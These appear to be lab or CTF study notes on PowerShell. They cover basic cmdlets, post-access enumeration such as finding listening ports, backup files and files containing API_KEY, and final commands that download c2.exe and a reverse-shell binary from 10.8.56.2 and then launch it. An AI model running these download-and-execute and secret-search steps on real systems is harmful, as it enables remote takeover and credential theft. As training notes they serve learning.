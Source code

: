 
# PS, PowerShell
- The normal format of a cmdlet is represented using Verb-Noun;

Basic
- Get-Command
- Get-Help Command-Name
- Get-Command New-*
- Get-Command | Get-Member -MemberType Method
- Get-ChildItem | Select-Object -Property Mode, Name
- Get-Service | Where-Object -Property Status -eq Stopped

Sample
- Get-ChildItem -Path c:\ -Recurse *interesting-file.txt* -ErrorAction SilentlyContinue
- Get-Content 'C:\Program Files\interesting-file.txt.txt'


# Enumeration
- The first step when you have gained initial access to any machine would be to enumerate
    - Get-LocalUser                                                                         users
    - Get-NetIPAddress                                                                      Get IP address info
    - Get-NetTCPconnection -State Listen                                                    Listening port
    - Get-NetTCPconnection -State Listen -LocalPort 445                                     Remote address for Port 445
    - Get-hotfix | measure                                                                  Number of installed patch                                 
    - Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue                                         
    - Get-ChildItem C:\* -recurse | Select-String -pattern API_KEY                          Search for all files containing API_KEY
    - Get-Process                                                                           list all the running processes?
    - Get-Scheduledtask -TaskName new-sched-task
    - Get-Acl C:\

# Basic Scripting Challenge 


Get-ChildItem -Path c:\ -Recurse *user.txt* -ErrorAction SilentlyContinue
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.56.2/c2.exe','c2.exe')"
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.56.2/revshell9001exit.exe','revshell9001exit.exe')"

Start-Process "revshell9001exit.exe"